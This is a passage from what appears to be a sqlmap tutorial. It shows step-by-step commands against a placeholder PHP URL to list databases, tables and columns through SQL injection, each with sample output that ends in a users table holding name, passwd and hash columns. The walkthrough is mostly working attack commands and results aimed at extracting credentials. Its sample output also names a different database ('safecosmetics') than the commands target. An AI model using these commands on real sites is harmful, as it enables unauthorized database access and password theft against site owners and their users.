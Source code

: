 ```
[12:13:00] [INFO] resumed: nombre_DB
available databases [2]:
[*] information_schema
[*] nombre_DB
```

With this we have the databases, in this example we have `2`:

```
[*] information_schema
[*] nombre_DB
```

Now, we are going to enter the database `name_db` and extract the name of the tables:

`sqlmap.py -u "http://www.paginaparaejemplo.com/algo.php?id=1&id2=1&id3=1" -D nombre_DB --tables`

At the end of the scan we have something like this:

```
[11:55:18] [INFO] the back-end DBMS is MySQL
web server operating system: FreeBSD
web application technology: Apache 2.2.22
back-end DBMS: MySQL 5
[11:55:18] [INFO] fetching tables for database: 'nombre_DB'
[11:55:19] [INFO] heuristics detected web page charset 'ascii'
[11:55:19] [INFO] the SQL query used returns 3 entries
[11:55:20] [INFO] retrieved: usuarios
[11:55:21] [INFO] retrieved: otra_tabla
[11:55:21] [INFO] retrieved: hola_soy_otra_tabla
```

At the end we have the following tables:

`usuarios, otra_tabla, hola_soy_otra_tabla`

The next thing is to select a table and extract the columns within it:

`sqlmap.py -u "http://www.paginaparaejemplo.com/algo.php?id=1&id2=1&id3=1" -D nombre_DB -T usuarios --columns`

At the end we have something like this:

```
[12:17:39] [INFO] the back-end DBMS is MySQL
web server operating system: FreeBSD
web application technology: Apache 2.2.22
back-end DBMS: MySQL 5
[12:17:39] [INFO] fetching columns for table 'users' in database 'safecosmetics'
[12:17:41] [INFO] heuristics detected web page charset 'ascii'
[12:17:41] [INFO] the SQL query used returns 4 entries
[12:17:42] [INFO] retrieved: id
[12:17:43] [INFO] retrieved: int(11)                                                                                         
[12:17:45] [INFO] retrieved: name                                                                                            
[12:17:46] [INFO] retrieved: text                                                                                            
[12:17:47] [INFO] retrieved: passwd                                                                                        
[12:17:48] [INFO] retrieved: text                                                                                            

.......

[12:17:59] [INFO] retrieved: hash
[12:18:01] [INFO] retrieved: varchar(128)
Database: nombre_DB
Table: users
```